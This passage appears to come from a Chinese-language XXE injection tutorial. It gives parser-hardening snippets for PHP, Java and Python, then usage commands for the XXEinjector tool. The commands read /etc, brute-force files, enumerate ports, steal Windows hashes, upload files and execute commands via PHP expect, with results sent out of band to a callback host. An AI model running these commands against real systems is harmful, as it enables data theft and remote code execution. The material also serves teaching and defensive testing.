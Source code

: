 ```php
libxml_disable_entity_loader(true);
```

JAVA:

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

# 自动化XXE工具

[XXEinjector](https://github.com/enjoiz/XXEinjector )是一个使用Ruby编写的自动化xxe漏洞检测工具，

可以通过给定一个http请求的包，然后设置好好参数就会自动化的进行fuzz，

他会通过内置的规则进行自动化的测试，并且还支持二次注入（通过另一个请求触发漏洞）

#### **参数说明：**

- host: 用于反向连接的 IP
- path: 要读取的文件或目录
- file: 原始有效的请求信息，可以使用 XXEINJECT 来指出 DTD 要注入的位置
- proxy: 代理服务器
- oob：使用的协议，支持 http/ftp/gopher
- phpfilter：使用 PHP filter 对要读取的内容进行 base64 编码，解决传输文件内容时的编码问题

#### **使用方法：**

```ruby
#列 /etc 目录 通过https:
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
#二次注入:
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt 
#通过http协议暴力枚举文件:
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
#直接枚举:
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```

```ruby
#枚举所有端口:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all

#获取windows hash:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes

#通过java的jar上传文件:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf

#执行系统命令使用 PHP expect:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls

#测试XSLT注入:
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt

#记录请求日志:
ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
```